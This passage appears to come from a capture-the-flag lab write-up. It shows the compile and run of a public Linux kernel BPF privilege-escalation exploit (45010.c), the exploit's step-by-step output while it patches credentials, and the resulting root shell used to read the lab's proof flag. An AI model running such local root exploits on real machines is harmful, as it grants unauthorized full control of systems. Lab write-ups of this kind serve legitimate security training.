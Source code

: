 Now lets run this exploit →

```bash
loly@ubuntu:/tmp$ chmod +x 45010.c
loly@ubuntu:/tmp$ gcc 45010.c -o root
loly@ubuntu:/tmp$ ./root
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800768d0d00
[*] Leaking sock struct from ffff88007718c780
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88007ac89540
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88007ac89540
[*] credentials patched, launching shell...
# /bin/bash -i
root@ubuntu:/tmp# cd ~
root@ubuntu:~#
```
{: .nolineno}
{: .nolineno}

Now to the `/root/` directory →

```bash
root@ubuntu:~# cd /root
root@ubuntu:/root# ls -al
total 32
drwx------  3 root root 4096 Jun 22 02:54 .
drwxr-xr-x 22 root root 4096 Dec  7  2020 ..
-rw-------  1 root root    0 Jan 13  2021 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jan 12  2021 .cache
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Jun 22 02:54 proof.txt
-rw-r--r--  1 root root   32 Dec  7  2020 root.txt
-rw-r--r--  1 root root   75 Aug 20  2020 .selected_editor
root@ubuntu:/root# cat root.txt
Your flag is in another file...
root@ubuntu:/root# cat proof.txt 
8ec102ee173b0d41d6a9beaba221a308
root@ubuntu:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:ba:70:cf brd ff:ff:ff:ff:ff:ff
    inet 192.168.233.121/24 brd 192.168.233.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feba:70cf/64 scope link 
       valid_lft forever preferred_lft forever
root@ubuntu:/root# whoami
root
root@ubuntu:/root# id
```